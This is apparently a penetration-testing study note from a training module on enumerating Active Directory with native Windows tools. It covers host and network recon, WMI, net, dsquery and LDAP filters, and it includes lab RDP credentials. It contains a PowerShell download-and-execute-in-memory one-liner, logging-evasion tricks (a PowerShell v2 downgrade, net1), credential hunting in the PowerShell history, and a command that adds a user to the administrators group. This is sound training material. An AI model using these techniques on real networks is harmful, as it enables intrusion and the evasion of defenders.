

### Living Off the Land

```
# Earlier in the module, we practiced several tools and techniques (both credentialed and uncredentialed) to enumerate the AD environment. 
# These methods required us to upload or pull the tool onto the foothold host or have an attack host inside the environment. 
# This section will discuss several techniques for utilizing native Windows tools 
# to perform our enumeration and then practice them from our Windows attack host.
```

### Env Commands For Host & Network Recon

```
# Basic Enumeration Commands
# Command                                        # Result
hostname                                         # Prints the PC's Name
[System.Environment]::OSVersion.Version          # Prints out the OS version and revision level
wmic qfe get Caption,Description,HotFixID,InstalledOn  # Prints the patches and hotfixes applied to the host
ipconfig /all                                    # Prints out network adapter state and configurations
set                                              # Displays a list of environment variables for the current session (ran from CMD-prompt)
echo %USERDOMAIN%                                # Displays the domain name to which the host belongs (ran from CMD-prompt)
echo %logonserver%                               # Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)
systeminfo                                       # We also can cover the information above with one command.
```

### Harnessing PowerShell

```
# Let's look at a few of the ways PowerShell can help us.

# Cmd-Let                                                 # Description

Get-Module                                                # Lists available modules loaded for use.
Get-ExecutionPolicy -List                                 # Will print the execution policy settings for each scope on a host.
Set-ExecutionPolicy Bypass -Scope Process                 # This will change the policy for our current process using the -Scope parameter. 
                                                          # Doing so will revert the policy once we vacate the process or terminate it. 
                                                          # This is ideal because we won't be making a permanent change to the victim host.
Get-ChildItem Env: | ft Key,Value                         # Return environment values such as key paths, users, computer information, etc.
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt  # With this string, we can get the specified user's 
                                                                                          # PowerShell history. This can be quite helpful as 
                                                                                          # the command history may contain passwords or point us  
                                                                                          # towards configuration files or scripts that contain 
                                                                                          # passwords.
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"  # This is a quick and easy way 
                                                                                                                          # to download a file from the 
                                                                                                                          # web using PowerShell and 
                                                                                                                          # call it from memory.
```

### Quick Checks Using PowerShell

```
PS C:\htb> Get-Module                      # Check imported modules
PS C:\htb> Get-ExecutionPolicy -List       # Check Policy list
PS C:\htb> whoami                          # Check your current user (permissions, authority)
PS C:\htb> Get-ChildItem Env: | ft key,value   # Check env paths
```

### Downgrade Powershell

```
# This is a great way for us to remain under the defenders' radar while still utilizing resources built into the hosts to our advantage. 
# Below is an example of downgrading Powershell.


PS C:\htb> Get-host                           # Check current host info and PS info
PS C:\htb> powershell.exe -version 2          # Downgrade PS to v2.0
PS C:\htb> Get-host                           # Check again that we are using now v2.0
PS C:\htb> get-module                         # Check imported modules 
```

### Examining the Powershell Event Log

[Script Block Logging](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2)

```
# With Script Block Logging enabled, we can see that whatever we type into the terminal gets sent to this log. 
# If we downgrade to PowerShell V2, this will no longer function correctly. 
# Our actions after will be masked since Script Block Logging does not work below PowerShell 3.0. 
# But, be aware that the action of issuing the command powershell.exe -version 2 within the PowerShell session will be logged.
```

### Checking Defenses

[netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)
[sc](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-query)

```
# The next few commands utilize the netsh and sc utilities to help us get a feel for the state of the host 
# when it comes to Windows Firewall settings and to check the status of Windows Defender.

PS C:\htb> netsh advfirewall show allprofiles               # Firewall Checks
C:\htb> sc query windefend                                  # Windows Defender Check (from CMD.exe)
PS C:\htb> Get-MpComputerStatus                             # Check the status and configuration settings with MpComputerStatus
```

```
# When landing on a host for the first time, one important thing is to check and see if you are the only one logged in.:

PS C:\htb> qwinsta                                          # Using qwinsta

# If we'll determine that no one else on host and we have a solid feel for the state of our host, 
# we can enumerate the network settings for our host and identify any potential domain machines 
# or services we may want to target next.
```

### Network Information

```
# Networking Commands                                  # Description
arp -a                                                 # Lists all known hosts stored in the arp table.
ipconfig /all                                          # Prints out adapter settings for the host. We can figure out the network segment from here.
route print                                            # Displays the routing table (IPv4 & IPv6) identifying known networks 
                                                       # and layer three routes shared with the host.
netsh advfirewall show allprofiles                     # Displays the status of the host's firewall. 
                                                       # We can determine if it is active and filtering traffic.

# Any networks that appear in the routing table are potential avenues for lateral movement 
# because they are accessed enough that a route was added, 
# or it has administratively been set there so that the host knows how to access resources on the domain. 
# These commands can be especially helpful in the discovery phase of a black box assessment where we have to limit our scanning

# Using arp -a and route print will not only benefit in enumerating AD environments, 
# but will also assist us in identifying opportunities to pivot to different network segments in any environment. 
# These are commands we should consider using on each engagement to assist our clients in understanding 
# where an attacker may attempt to go following initial compromise.
```

### Windows Management Instrumentation (WMI)

```
# Windows Management Instrumentation (WMI) is a scripting engine that is widely used within Windows enterprise environments 
# to retrieve information and run administrative tasks on local and remote hosts. 
# For our usage, we will create a WMI report on domain users, groups, processes, 
# and other information from our host and other domain hosts.
```

```
# Quick WMI checks

# Prints the patch level and description of the Hotfixes applied
wmic qfe get Caption,Description,HotFixID,InstalledOn 	

# Displays basic host information to include any attributes within the list
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List 	

wmic process list /format:list 	     # A listing of all processes on host
wmic ntdomain list /format:list 	 # Displays information about the Domain and Domain Controllers
wmic useraccount list /format:list 	 # Displays information about all local accounts and any domain accounts that have logged into the device
wmic group list /format:list 	     # Information about all local groups
wmic sysaccount list /format:list 	 # Dumps information about any system accounts that are being used as service acco
```

### Net Commands

[Net](https://docs.microsoft.com/en-us/windows/win32/winsock/net-exe-2)

```
# Net commands can be beneficial to us when attempting to enumerate information from the domain. 
# These commands can be used to query the local host and remote hosts, much like the capabilities provided by WMI. 
# We can list information such as:

- Local and domain users
- Groups
- Hosts
- Specific users in groups
- Domain Controllers
- Password requirements
```

```
# Table of Useful Net Commands
# Command 	Description
net accounts                                # Information about password requirements
net accounts /domain                        # Password and lockout policy
net group /domain                           # Information about domain groups
net group "Domain Admins" /domain           # List users with domain admin privileges
net group "domain computers" /domain        # List of PCs connected to the domain
net group "Domain Controllers" /domain      # List PC accounts of domains controllers
net group <domain_group_name> /domain       # User that belongs to the group
net groups /domain                          # List of domain groups
net localgroup                              # All available groups
net localgroup administrators /domain       # List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default)
net localgroup Administrators               # Information about a group (admins)
net localgroup administrators [username] /add # Add user to administrators
net share                                   # Check current shares
net user <ACCOUNT_NAME> /domain             # Get information about a user within the domain
net user /domain                            # List all users of the domain
net user %username%                         # Information about the current user
net use x: \\computer\share                 # Mount the share locally
net view                                    # Get a list of computers
net view /all /domain[:domainname]          # Shares on the domains
net view \\computer /ALL                    # List shares of a computer
net view /domain                            # List domains 
```

```
# Net Commands Trick

# If you believe the network defenders are actively logging/looking for any commands out of the normal, 
# you can try this workaround to using net commands. 
# Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string.(!)
```

### Dsquery

[Dsquery](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc732952(v=ws.11))

```
# Dsquery is a helpful command-line tool that can be utilized to find Active Directory objects. 
# The queries we run with this tool can be easily replicated with tools like BloodHound and PowerView, 
# but we may not always have those tools at our disposal, as discussed at the beginning of the section. 
# But, it is a likely tool that domain sysadmins are utilizing in their environment. 

# With that in mind, dsquery will exist on any host with the Active Directory Domain Services Role installed, 
# and the dsquery DLL exists on all modern Windows systems by default now and can be found at C:\Windows\System32\dsquery.dll.
```

```
# Dsquery DLL

# All we need is elevated privileges on a host or the ability to run an instance of Command Prompt or PowerShell from a SYSTEM context. 
# Below, we will show the basic search function with dsquery and a few helpful search filters.

PS C:\htb> dsquery user                 # User Search
PS C:\htb> dsquery computer             # Computer Search
PS C:\htb> dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"           # Wildcard Search

# Users With Specific Attributes Set (PASSWD_NOTREQD):
PS C:\htb> dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl

# Searching for Domain Controllers:
PS C:\Users\forend.INLANEFREIGHT> dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```

### LDAP Filtering Explained

```
# You will notice in the queries above that we are using strings such as userAccountControl:1.2.840.113556.1.4.803:=8192. 
# These strings are common LDAP queries that can be used with several different tools too, including AD PowerShell, ldapsearch, and many others. 
# Let's break them down quickly:

userAccountControl:1.2.840.113556.1.4.803: 
# Specifies that we are looking at the User Account Control (UAC) attributes for an object. 
# This portion can change to include three different values we will explain below when searching for information in 
# AD also known as Object Identifiers (OIDs).

# =8192 represents the decimal bitmask we want to match in this search. 
# This decimal number corresponds to a corresponding UAC Attribute flag 
# that determines if an attribute like password is not required or account is locked is set. 
# These values can compound and make multiple different bit entries. Below is a quick list of potential values.
```



```
# OID match strings

# OIDs are rules used to match bit values with attributes, as seen above. 
# For LDAP and AD, there are three main matching rules:

1.2.840.113556.1.4.803
# When using this rule as we did in the example above, we are saying the bit value must match completely to meet the search requirements. 
# Great for matching a singular attribute.

1.2.840.113556.1.4.804
# When using this rule, we are saying that we want our results to show any attribute match if any bit in the chain matches. 
# This works in the case of an object having multiple attributes set.

1.2.840.113556.1.4.1941
# This rule is used to match filters that apply to the Distinguished Name of an object and will search through all ownership and membership entries. 
```

```
# Logical Operators

# When building out search strings, we can utilize logical operators to combine values for the search. 
# The operators & | and ! are used for this purpose. 
# For example we can combine multiple search criteria with the & (and) operator like so:
(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=64))

# The above example sets the first criteria that the object must be a user and combines it with searching for a UAC bit value of 64 
# (Password Can't Change). A user with that attribute set would match the filter. 
# You can take this even further and combine multiple attributes like (&(1) (2) (3)). 
# The ! (not) and | (or) operators can work similarly. For example, our filter above can be modified as follows:
(&(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=64))

# This would search for any user object that does NOT have the Password Can't Change attribute set. 
# When thinking about users, groups, and other objects in AD, our ability to search with LDAP queries is pretty extensive.

# Now we will take it a step further and tackle a TTP every AD pentester should have in their toolbelt, Kerberoasting.
```

### Task Solution

```
# RDP to 10.129.97.205 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!" 

xfreerdp /v:10.129.97.205 /u:htb-student  /p:Academy_student_AD!

# Start PowerShell under Adminstrator mode
Get-MpComputerStatus              # Check AMP and other system conf info
net localgroup Administrators     # check admin group, and users
```
--------------------------------------------------